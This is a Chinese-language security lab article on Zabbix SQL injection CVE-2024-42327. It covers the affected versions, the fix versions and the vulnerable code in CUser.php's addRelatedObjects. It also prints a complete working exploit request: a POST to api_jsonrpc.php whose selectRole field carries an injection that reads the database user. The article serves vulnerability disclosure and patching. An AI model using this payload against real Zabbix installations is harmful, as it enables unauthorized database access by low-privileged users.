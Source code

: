 #  Zabbix SQL 注入漏洞（CVE-2024-42327）   
原创 xaitx  天启实验室   2024-12-09 12:52  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LDUwxuibGlXKCKM4Syhc3ybVyBr4pfiaq099ibzGRkXmLnq3P7pSW1WZfY8icrBP51ZibI3bZPEncsMLHiaLg84U6FibA/640?wx_fmt=png&from=appmsg "")  
  
**点击蓝字 关注我们**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LDUwxuibGlXKCKM4Syhc3ybVyBr4pfiaq0iaAnMagtCAfhRMd563XOSoKDShGgopHCTOlTzwKyftnkc3Ms3mzqNbg/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞介绍  
  
Zabbix前端上具有默认用户角色或任何其他赋予API访问权限的角色的非管理员用户帐户都可以利用此漏洞。addRelatedObjects函数的Cuser类中存在SQLi，该函数是从Cuser.get函数调用的，该函数适用于每个具有API访问权限的用户。  
  
影响范围  
  
6.0.0 - 6.0.31  
  
6.4.0 - 6.4.16  
  
7.0.0  
  
修复建议  
  
升级到安全版本：6.0.32rc1，6.4.17rc1，7.0.1rc1  
  
漏洞复现  
  
登录后使用以下payload：  
  
POST /api_jsonrpc.php HTTP/1.1  
  
Host: z.test.xaitx.com  
  
Content-Type: application/json-rpc  
  
Cookie: zbx_session=eyJzZXNzaW9uaWQiOiJiODVhYjcwNjZlN2M3YmU0YmYzNmEwMGEwN2ZjMzBiYiIsInNlcnZlckNoZWNrUmVzdWx0IjpmYWxzZSwic2VydmVyQ2hlY2tUaW1lIjoxNzMzNzQ2ODM5LCJzaWduIjoiMGE4N2RlZTkyNWU1Y2JlNTFkZjdkNGYyNzk1Y2ZlMmYxODA4NGEwYWJmODQ0MTk5NGI3MDA0MzRmNzA1MjY3YiJ9  
  
Content-Length: 101  
  
  
{  
  
  "jsonrpc": "2.0",  
  
  "method": "user.get",  
  
  "params": {  
  
    "selectRole": [  
  
    "a from (select 1 as userid) as u join (select (select user()) as a) as r #"  
  
    ]  
  
  },  
  
  "id": 2  
  
}  
  
返回数据库对应的信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LDUwxuibGlXKCKM4Syhc3ybVyBr4pfiaq0w7X4KzDxZKMPN8fnibz8tiafQjWeRoeJjicakDMQAPEiaJ0BXlAtDWTlbg/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞分析  
  
漏洞关键点在于include\classes\api\services\CUser.php的addRelatedObjects函数中。可以看到SQL语句中将处理后的$options['selectRole']值直接拼接到了SQL语句中。而$options是直接从用户输入接收到的值，其他地方也没有对selectRole进行限制和过滤，只有最后有一个拼接。所以在这里直接导致了SQL注入。  
  
因为该接口前面还有鉴权，所以还需要具有默认用户角色或任何其他赋予API访问权限的角色的非管理员用户帐户都可以利用此漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LDUwxuibGlXKCKM4Syhc3ybVyBr4pfiaq0nlsEmydQjjJCq9jeGeiaLV1TjSg9ic3iatve6aOQq7sicJ2SfdiapuKzryQ/640?wx_fmt=png&from=appmsg "")  
  
  
参考链接  
  
1. https://avd.aliyun.com/detail?id=AVD-2024-42327  
  
2. https://support.zabbix.com/browse/ZBX-25623  
  
  
